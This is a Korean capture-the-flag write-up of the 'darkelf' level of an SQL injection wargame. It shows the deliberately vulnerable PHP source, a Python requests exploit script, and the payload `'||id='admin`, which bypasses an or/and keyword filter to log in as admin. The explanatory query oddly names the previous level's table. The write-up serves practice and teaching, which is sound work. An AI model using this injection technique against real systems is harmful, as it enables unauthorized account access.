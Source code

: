 ## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");  
$query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("darkelf");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['pw'] = "'||id='admin"

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] DARKELF Clear")
```
이번 문제는 저번 문제와 비슷한데 or과 and가 필터링 되어 있다.
`or` 대신 `||` 기호를 사용하면 된다.
GET 방식으로 전송되는 pw에 `'||id='admin`을 넣어주면 쿼리문은 아래와 같이 된다.
``` php
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```
id가 admin이므로 문제가 풀린다.